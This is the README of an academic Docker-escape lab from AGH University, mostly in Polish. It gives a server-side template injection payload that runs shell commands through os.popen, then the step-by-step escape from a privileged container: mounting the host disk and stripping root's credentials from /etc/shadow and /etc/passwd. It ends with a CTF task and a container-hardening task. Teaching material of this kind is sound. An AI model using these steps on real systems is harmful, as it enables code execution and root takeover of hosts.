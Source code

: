 
# Docker-Escape
This project shows vulnerability how to escape from Docker container in which web application is running. <br />

## About
This project was made for academic purposes during one of our courses at the AGH University of Krakow. <br />
We present security issues in Docker. We show vulnerabilities of this software and best practices related to them. Below we also include case-studies showing how to get into the server from the user level of a web application, how to escape from this container and the possibilities that open up to us after such an escape.<br />

  
## Authors:
[Huber Mąka](https://github.com/norka02) <br />
[Karol Makara](https://github.com/KarolMakara) <br />
[Jakub Kowal](https://github.com/jd-kowal) <br />

*** 

# Tasks


## Task 0 - Przygotowanie środowiska
Aby rozpocząć wykonywanie zadań sklonujcie repozytorium. <br />
Będziemy używać Dockera (kontener w kontenerze). Całość jest przygotowana w docker.file. <br />
Następnie wykonaj poniższe komendy. <br />

Build:
```bash: 
docker build -t ubuntu-dind
```

Run:
```bash: 
docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
```

Enter:<br />
```bash: 
docker exec -itu adam ubuntu-dind bash
```

**TIP** - w przypadku problemów -> zrestartuj kontener 

## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
Do następnej czynności będziemy potrzebowali poniższej komendy. <br />

```
"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
```

Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.

**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen()) 

## Task 2 - Docker Escape & Privilege Escalation
**TIP** - proponujemy przejście z wykonywaniem zadań do terminala. <br />
Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />

Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}: 
```
su root
```
Sprawdź listę dostępnych obrazów:
```
docker images
```
Pobierz obraz dockera z repozytorium:
```
docker pull ubuntu
```
![image1](https://github.com/norka02/Docker-Escape/assets/94318576/daff8699-e65e-4b32-a762-a6ba73781618) <br />
Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
```
docker images
```
Będąc na użytkowniku **adam** uruchom kontener {**DE**}:
```
docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu bash
```
Teraz jesteś wewnątrz swojego kontenera, którego przed chwilą stworzyłeś. Możesz to sprawdzić za pomocą komend ``whoami`` oraz ``hostname``. <br />
Przykładowy ScreenShot znajduje się poniżej.
![image2](https://github.com/norka02/Docker-Escape/assets/94318576/7a2266e8-ce4f-44dd-9a3d-e93341a36755) <br />
Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />
Następnie stwórz w swoim kontenerze z obrazem ubuntu katalog: <br />
```bash
mkdir -p /mnt/share
```
Oraz podmontuj odpowiednią partycję dysku do tego katalogu np. /dev/sdc: <br />
```bash
mount /dev/sdc /mnt/share
```
Domyślnie polecenie mount nadaje ci prawa do zapisu i odczytu, ale jeśli wystąpiłby przykładowo taki komunikat: <br />
![image3](https://github.com/norka02/Docker-Escape/assets/94318576/d1cd3e07-3672-4086-bb40-2b86b14bceb5) <br />
Zmień partycję dysku. Listę partycji możesz uzyskać za pomocą polecenia: <br />
```bash
lsblk
```
Dzięki podmontowaniu partycji jesteśmy w stanie uzyskać dostep do struktury katalogów hosta. Spróbuj przedostać się do zewnętrznego systemu plików, odnajdź pliki ``/etc/shadow`` oraz ``/etc/passwd`` i usuń w nich elementy odpowiadające za uwierzytelnienie użytkownika root. <br />
Teraz wykonujemy poniższą komendę:
```bash
apt update
```

Musimy zainstalować w kontenerze wybrany przez siebie edytor tekstowy (np. vim, nano). 
```bash
apt install vim
```
Sprawdź czy masz dostęp do struktury katalogów hosta:
```bash
 ls -l /mnt/share 
```
Za pomocą edytora tekstowego otwieramy plik ``/etc/shadow`` oraz ``/etc/passwd``. 
```bash
vim /mnt/share/etc/passwd
```
Trzeba usunąć część wskazującą na obecność hasła root-a w pliku shadow {**PE**}. <br />

![image5](https://github.com/norka02/Docker-Escape/assets/94318576/8bf49b45-925b-4c12-b7a5-9a6a5cbf5b4b)
![image4](https://github.com/norka02/Docker-Escape/assets/94318576/f38a79ad-7e7a-4e0b-a404-cfce4b5aaea8)
<br />

Wyjdź z kontenera za pomocą ``exit``. <br />
Zmień użytkownika na root-a {**PE**}:
```
su root
```

**Odpowiedź** - wyślij ss potwierdzającego twoje uprawnienia root-a. 

## Task 3 - Mini-CTF
Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />
Flaga znajduje się w pliku tekstowym i jest oznaczona w następujący sposób:
```
CTF{<flaga>}
```

**Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga. 

## Task 4 - Tworzenie Bezpiecznego Kontenera
Posiadając całą wiedzę zdobytą podczas prezentacji oraz poprzednich tasków zastanów się w jaki sposób możesz zabezpieczyć kontener przed różnymi wektorami ataków. <br />
Stwórz kontener, który spełnia wszystkie best-practice dot. bezpiecznego tworzenia kontenera Dockera. <br />
<br />
**Odpowiedź** - wyślij widoczną komendę, która tworzy **Bezpieczny Kontener**. <br />
